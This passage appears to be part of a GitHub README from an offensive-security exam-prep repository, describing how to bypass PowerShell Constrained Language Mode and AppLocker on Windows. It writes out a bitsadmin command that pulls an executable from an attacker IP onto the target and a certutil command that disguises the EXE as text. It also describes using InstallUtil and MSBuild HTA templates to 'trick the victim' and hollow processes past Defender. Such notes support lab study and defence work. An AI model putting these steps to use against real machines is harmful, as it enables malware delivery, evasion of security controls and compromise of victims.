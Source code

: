 ### <ins>InstallUtil (installutil-template.hta)</ins>
*Note: if curl is not available on the target machine, we can use bitsadmin instead:*
- `bitsadmin /transfer myJob http://192.168.45.199/scanVenger.exe C:\Windows\Tasks\scanvenger.exe`

- Compile C# executable that uses Custom Powershell Runspace.
- Convert the outputted EXE to txt using certutil: `certutil -encode clm-bypass.exe file.txt`
- Use the InstallUtil template to trick the victim to download the file.txt file and let the magic happen.

### <ins>MSBuild (msbuild.hta)</ins>
- Use the file [Hollow.xml](https://github.com/Extravenger/OSEP-Combat/blob/main/CLM-Bypass/MSBuild/Hollow.xml). (Bypass defender and Applocker defautlt rules)
